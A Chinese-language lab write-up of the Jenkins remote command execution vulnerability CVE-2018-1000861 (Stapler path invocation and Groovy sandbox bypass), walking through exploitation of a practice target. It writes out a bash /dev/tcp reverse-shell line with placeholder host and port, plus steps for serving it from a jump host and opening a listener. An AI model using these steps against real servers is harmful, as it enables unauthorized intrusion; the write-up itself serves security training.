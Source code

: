 # CVE-2018-1000861(Jekins 远程命令执行)

## 漏洞概述

Jenkins使用Stapler框架开发，其允许用户通过URL PATH来调用一次public方法。由于这个过程没有做限制，攻击者可以构造一些特殊的PATH来执行一些敏感的Java方法。

通过这个漏洞，我们可以找到很多可供利用的利用链。其中最严重的就是绕过Groovy沙盒导致未授权用户可执行任意命令：Jenkins在沙盒中执行Groovy前会先检查脚本是否有错误，检查操作是没有沙盒的，攻击者可以通过Meta-Programming的方式，在检查这个步骤时执行任意命令。

首先打开靶场。

![1](./1.png)

因为此漏洞无回显，所以直接用脚本反弹 shell 了，附上下载链接：

`https://github.com/orangetw/awesome-jenkins-rce-2019/`

首先在跳板机上面创建一个 TXT 文档，文档内容为：

`bash -i >& /dev/tcp/IP/port 0>&1`

然后在跳板机上面创建一个 HTTP 服务，命令如下：

`python3 -m http.server`

然后利用脚本去下载 跳板机上面 shell 文档

![2](./2.png)

在你的跳板机上开启监听，端口是刚才 shell 文档里写的端口

![](./4.png)

然后执行 shell 文档

![3](./3.png)

成功反弹，并执行 ls /tmp 查看 Flag

![5](./5.png)

也可以利用 Goby 直接去利用

![6](./6.png)

